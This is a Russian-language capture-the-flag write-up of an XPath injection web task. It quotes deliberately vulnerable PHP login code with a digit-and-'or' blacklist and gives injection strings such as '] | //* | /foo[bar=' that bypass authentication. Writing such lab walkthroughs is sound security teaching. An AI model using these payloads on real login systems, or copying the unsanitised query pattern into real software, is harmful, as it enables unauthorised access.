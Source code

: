 ## SteamCTF

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| final_isetCTF 2020 | SteamCTF | Web | ........ |

### Описание
> Автор: [ @dikidikiday ]
>
> **Записки охранника Игоря:** *день первый*
> 
> Во всей моей профессиональной практике я не находил более ответственного, ленивого,но прилежного сисадмина, чем этот новичок. Он мне сразу не понравился. Ну даже мне понятно, что от рута в консоли не надо работать!! Я вот сижу под своим **Игорь** и всем доволен! Вообще в нашем банке есть особенная система, специально, чтобы не вести таблицу доходов/расходов, но попробуй объясни это новичку...
> В этой системе обращение к элементам **документа**, имеющего древовидную структуру, напоминает взаимодействие с файловой системой **(/)**.
> Всем удобно, никто не жалуется.
> Эту [систему](http://ваш_сайт:1001) создал старый сисадмин Павлик, но его выгнали, из-за этого он ушёл и даже не сказал пароль!!!
> Знаю только, что он фанат Warface. Ээх..поиграть бы..
> Но для начала надо найти пароль, вдруг он его куда-нибудь записал...

### Решение 

Самое сложное и важное -- прочитать условие.
Понимаем, что повествование переключилось, теперь идет не от лица горе-сисадмина, а от лица охранника Игоря. Выделено имя -- на заметку, скорее всего надо будет ломать именно его.
Система, похожая чем-то на БД из прошлых соревнований первого дня.

Ладно, переходим на сайт, пробуем авторизоваться как `admin`:`admin`, на что сайт выкидывает: `Ваш флаг STEAMCTF: flag{4dm1N_is_4n_Inv4LiD_usEr}`.

Можно подумать, что все, вот он флаг, только он почему-то не сдается в чекер, а если присмотреться, можно прочитать `admin is an invalid user`. 

Понятно. Швыряем ботинок в сторону автора таска, надо попробовать что-нибудь другое.

Спойлер! Так же все нижеперечисленные фейкофлаги неверные! Это на случай любителей сканеров `=)`

```
user:user
lol_try_harder!!!

test:test
flag{t3st_is_4n_Inv4LiD_usEr}

admin:admin
flag{4dm1N_is_4n_Inv4LiD_usEr}

root:root
flag{r007_is_4n_Inv4LiD_usEr}

ubuntu:ubuntu
flag{uBUN7u_is_4n_Inv4LiD_usEr}

kali:kali
flag{k4L1_is_4n_Inv4LiD_usEr}

lol:lol
flag{l0l_is_4n_Inv4LiD_usEr}

secret:secret
flag{my_53CR37_U53R_is_4n_Inv4LiD_usEr}

server:server
flag{th15_15_NOT_4_U53R}

flag:flag
flag{th15_15_NOT_4_U53R}
```

Возвращаемся к описанию.

Документ,имеющий древовидную структуру намекает на **XML документ**.

Гуглим.

**XML (eXtensible Markup Language)** – это всем известный язык разметки, с помощью которого создаются XML документы, имеющие древовидную структуру. 

Пример простейшего XML документа:

```
<?xml version="1.0" encoding="UTF-8"?>
<foo>
<bar param="value"/>
</foo>
```

Гуглим еще.

**XPath (XML Path Language)** – это язык, который предназначен для произвольного обращения к частям XML документа.

О! То, что надо!

По аналогии с первым вебом на прошлых соревнованиях можно предположить, что тут тоже инъекция, тем более такая есть, а автор намекает на это.

Гуглим [туц](https://raz0r.name/articles/vvedenie-v-xpath-inekcii/) и [туц](https://xakep.ru/2008/06/24/44160/)

Представим что у нас есть XML база и аутентификация, основанная на ней:

```
<?xml version='1.0' encoding='ISO-8859-1'?> <users>
    <user>
        <id> 1 </id>
        <username> admin </username>
        <password> xp8th! </password>
    </user>

    <user>
        <id> 2 </id>
        <username> test </username>
        <password> test987 </password>
    </user>

    <user>
        <id> 3 </id>
        <username> bigolnerd </username>
        <password> nerdsneedlovetoo
</password>
</user>
</users>
```

Можно сразу было попробовать вставить кавычку и понять, что это была `xpath inj`:
```
Warning: SimpleXMLElement::xpath(): Invalid predicate in /var/www/html/index.php on line 561

Warning: SimpleXMLElement::xpath(): xmlXPathEval: evaluation failed in /var/www/html/index.php on line 561
```

`'1'='1` и аналогичные кавычки не работают, также блочатся `or` и цифры.

Зайдя в исходный код страницы, находим ссылку
`<!-- <a href="/index.php/src/">Исходный код</a> -->` на исходный код.

Видим, что пользовательский ввод через поля **login** и **password** фильтруется:

```php
$blacklist = Array('or','0', '1', '2', '3', '4', '5', '6', '7', '8', '9');
``` 

Также, наюблюдаем очень странную проверку верности введённых пользователем данных:

```
        if ($_SERVER['REQUEST_METHOD'] === 'POST'){
          $login = $_POST['login'];
          $pass = $_POST['pass'];
          if(contains($pass, $blacklist) or contains($login, $blacklist)){
              die("Простите, тут запрещено хекать!!");
          }
          else{
            $xml = simplexml_load_file('/users.xml');

            $query = "//users/user[login/text()='$login' and password/text()='$pass']";

            $result = $xml->xpath($query);
            if(!$result){
                echo "Попробуй еще раз! Я верю в тебя!";
            }
            else{
                $user_data = $xml->xpath("//users/user[login/text()='$login']")[0];
                $flag = $user_data->flag;
                echo "Ваш флаг STEAMCTF: ".$flag;
            }
          }
        }
```

Видим, что нам нужно провести инъекцию в поле **password** так, чтобы запрос был верным и выдал хотя бы один результат, а в поле **login** ввести необходимого нам пользователя (из описания задания можно понять, что нам необходим **Игорь**).

Учитывая фильтры, простейшие инъекции:
```
'] | //* | /foo[bar='
'] | /* | /foo[bar='
'] | /users/user | /foo[bar='
```

При этом последний вариант можно вставить только в логин.


**Флаг:**

> flag{xp4tH_I5_jU5T_4_w4rM_uP}
